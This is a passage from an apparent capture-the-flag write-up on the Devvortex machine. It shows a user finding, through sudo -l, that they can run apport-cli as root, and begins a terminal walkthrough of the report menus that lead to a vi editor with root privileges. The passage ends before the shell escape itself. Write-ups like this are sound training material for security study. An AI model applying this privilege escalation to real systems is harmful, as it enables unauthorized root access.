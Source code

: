 ![user flag](./devvortex/user_flag.jpg)

## Privilege Escalation

`sudo -l` command revealed that logan can run apport-cli with sudo privilege.

### What is this apport-cli?
- I checked on google and got a POC for privilege escalation. We can use apport-cli to report some files. Here the vullnerability is, when we report some files and then following few steps gives us vi editor. Now we have a vi editor with sudo privilege, it's a piece of cake. Lets exploit it.


```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze
```